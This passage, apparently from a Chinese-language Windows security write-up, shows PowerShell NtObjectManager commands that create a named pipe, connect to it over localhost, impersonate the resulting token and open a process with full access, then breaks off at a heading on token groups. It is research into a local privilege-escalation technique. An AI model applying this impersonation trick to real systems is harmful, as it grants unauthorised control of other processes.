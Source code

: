 [![](assets/1707954629-82fa3363475233b80d639f8ebd563f8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240203151056-601f63f2-c263-1.png)

创建一个命名管道，启动监听，通再利用 localhost 打开管道句柄

```bash
$pipe = New-NtNamedPipeFile \\.\pipe\AAA2 -Win32Path
$job = Start-Job {$pipe.Listen（）}
$file = Get-NtFile \\127.0.0.1\pipe\AAA2 -Win32Path
Wait-Job $Job | Out-Null
```

在核心模式下运行

```bash
$p = Use-NtObject（$pipe.Impersonate（））{
    Get-NtProcess -ProcessId 912
}
$p.GrantedAccess
```

在这个情境下，通过 `Impersonate()` 进行了身份模拟，然后在该身份下执行了 `$p.GrantedAccess` 来获取该进程被赋予的访问权限。结果显示为 `AllAccess`，表明模拟的身份被授予了进程的全部访问权限。

查看令牌的组列表
